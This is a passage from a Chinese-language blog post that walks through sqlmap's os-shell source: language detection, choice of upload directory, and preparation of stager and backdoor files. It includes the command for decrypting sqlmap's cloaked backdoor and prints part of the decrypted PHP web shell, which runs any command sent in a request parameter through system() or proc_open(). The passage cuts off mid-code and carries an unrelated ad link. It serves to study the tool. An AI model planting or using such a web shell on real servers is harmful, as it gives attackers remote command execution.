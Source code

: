 这个函数比较长，这里挑重点说一下：


第一步确认应用语言类型：


首先会初始化相关变量，获取公开的应用语言类型，存储在choices列表中。然后需要根据当前的url后缀确定默认语言。如果没有通过url后缀确定出来，那么Windows平台默认就时asp，其他均为php。要么又用户输入自己输入应用语言类型。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123225826883-55404399.png)](https://github.com)


第二步准备上传目录和上传文件的内容：


sqlmap它会主动通过从不同来源解析文件路径，包括从原始页面匹配的url中解析，从修改后的url中解析，从请求参数中解析，从cookie中解析。


接着准备上传目录列表directories，可以通过getManualDirectories函数获取手动指定的目录列表，调用getAutoDirectories函数获取自动生成的目录列表。然后使用正则表达式对路径path进行处理。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123230728790-1227964948.png)](https://github.com):[FlowerCloud机场](https://hushicha.org)


然后需要准备待写入的stager文件和backdoor后门文件的文件内容，它会首先生成一个随机的后门文件名（tmp\+随机字符串），然后从分别本地来获取后门内容和stager的内容。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123231023245-1455259667.png)](https://github.com)


可以不妨先来看看这两个文件是什么东西，以php脚本为例。


注意：



> 这里下划线结尾的文件是无法直接打开浏览的，原因是这些文件中包含了一些恶意的代码，sqlmap为了防止本地的杀软把这些文件误杀了，进行了加密处理。
> 
> 
> 可以通过sqlmap提供的extra/cloak/cloak.py进行解密：python cloak.py \-d \-i D:\\Temp\\sqlmap\-1\.8\\data\\shell\\backdoors\\backdoor.php\_


解密后的backdoor.php\_如下：



```
php</span
$c=$_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set("max_execution_time",0);
$z=@ini_get("disable_functions");
if(!empty($z)){
	$z=preg_replace("/[, ]+/",',',$z);
	$z=explode(',',$z);
	$z=array_map("trim",$z);
}else{
	$z=array();
}
$c=$c." 2>&1\n";
function f($n){
	global $z;
	return is_callable($n)and!in_array($n,$z);
}
if(f("system")){
	ob_start();
	system($c);
	$w=ob_get_clean();
}elseif(f("proc_open")){
```